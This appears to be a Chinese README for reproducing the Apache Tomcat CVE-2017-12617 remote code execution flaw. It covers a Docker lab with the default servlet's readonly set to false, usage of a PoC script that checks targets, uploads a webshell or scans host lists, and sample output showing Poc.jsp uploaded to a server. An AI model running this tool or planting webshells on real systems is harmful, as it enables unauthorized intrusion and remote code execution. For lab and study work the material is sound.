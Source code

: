 # CVE-2017-12617
Apache Tomcat团队10月3日宣布，如果配置了默认servlet，则在9.0.1（Beta），8.5.23,8.0.47和7.0.82之前的所有Tomcat版本都包含所有操作系统上的潜在危险的远程执行代码（RCE）漏洞，CVE-2017-12617：远程代码执行漏洞。

# 环境
使用image: tomcat:7.0.79-jre8复现漏洞
```
docker-compose up -d

```
修改 .\conf\web.xml 配置文件，增加 readonly 设置为 false ，一定要记得重启下tomcat服务。
为了不用每次都要导入数据，我们将采用挂载的方式持久化,将需要修改的web.xml定义放在./目录，挂载到容器指定目录
volumes:
    - ./web.xml:/usr/local/tomcat/conf/web.xml


# poc
<br>./cve-2017-12617.py [options]

<br>options:

<br>-u ,--url [::] check target url if it's vulnerable 
<br>-p,--pwn  [::] generate webshell and upload it
<br>-l,--list [::] hosts list

<br>[+]usage:

<br>./cve-2017-12617.py -u http://127.0.0.1
<br>./cve-2017-12617.py --url http://127.0.0.1
<br>./cve-2017-12617.py -u http://127.0.0.1 -p pwn
<br>./cve-2017-12617.py --url http://127.0.0.1 -pwn pwn
<br>./cve-2017-12617.py -l hotsts.txt
<br>./cve-2017-12617.py --list hosts.txt

```
 python tomcat-cve-2017-12617.py -u http://10.160.11.191:8080



   _______      ________    ___   ___  __ ______     __ ___   __ __ ______ 
  / ____\ \    / /  ____|  |__ \ / _ \/_ |____  |   /_ |__ \ / //_ |____  |
 | |     \ \  / /| |__ ______ ) | | | || |   / /_____| |  ) / /_ | |   / / 
 | |      \ \/ / |  __|______/ /| | | || |  / /______| | / / '_ \| |  / /  
 | |____   \  /  | |____    / /_| |_| || | / /       | |/ /| (_) | | / /   
  \_____|   \/   |______|  |____|\___/ |_|/_/        |_|____\___/|_|/_/    
                                                                           
                                                                           

[@intx0x80]


Poc Filename  Poc.jsp
File Created ..
http://10.160.11.191:8080 it's Vulnerable to CVE-2017-12617
http://10.160.11.191:8080/Poc.jsp

```

# 参考

*http://www.freebuf.com/vuls/150203.html